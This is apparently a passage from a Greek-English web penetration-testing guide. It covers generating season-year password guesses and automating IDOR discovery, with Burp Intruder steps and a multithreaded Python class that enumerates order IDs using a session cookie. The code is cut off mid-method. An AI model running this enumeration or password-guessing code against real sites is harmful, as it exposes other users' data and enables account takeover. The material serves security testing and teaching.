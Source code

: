 ```python
    years = ['2023', '2024', '2025']
    
    for season in seasons:
        for year in years:
            passwords.append(f"{season}{year}!")
    
    return passwords
```

### 2.4 IDOR - Business Logic Exploitation

#### 2.4.1 Automated IDOR Discovery

**[ΟΔΗΓΙΕΣ SCREENSHOT IDOR-ADV-1]**
```
Τίτλος: IDOR Pattern Analysis με Burp Intruder
Εργαλείο: Burp Suite Professional
Βήματα:
1. Capture order request
2. Send to Intruder
3. Set payload positions: /order/§ORD-§§TEST§§-§§DEMO§§/
4. Payload type: Numbers 0-999
5. Screenshot του Intruder results με status codes
6. Highlight accessible orders (200 OK)
```

**IDOR Discovery Automation**:
```python
import re
import requests
from concurrent.futures import ThreadPoolExecutor

class IDORHunter:
    def __init__(self, session_cookie):
        self.session = requests.Session()
        self.session.cookies.set('sessionid', session_cookie)
        self.found_ids = []
        
    def test_pattern(self, pattern, start, end):
        """Test numeric pattern for IDOR"""
        with ThreadPoolExecutor(max_workers=50) as executor:
            futures = []
            for i in range(start, end):
                url = pattern.format(i)
                futures.append(executor.submit(self.check_access, url))
            
            for future in futures:
                result = future.result()
                if result:
                    self.found_ids.append(result)
    
    def identify_patterns(self, sample_id):
        """Identify ID patterns from sample"""
        patterns = []
        
        # Numeric patterns
        if re.match(r'^\d+$', sample_id):
            patterns.append('/order/{}/')
            
        # Alphanumeric patterns
        if re.match(r'^[A-Z]+-\d+-[A-Z]+$', sample_id):
            prefix, num, suffix = sample_id.split('-')
            patterns.append(f'/order/{prefix}-{{}}-{suffix}/')
            
```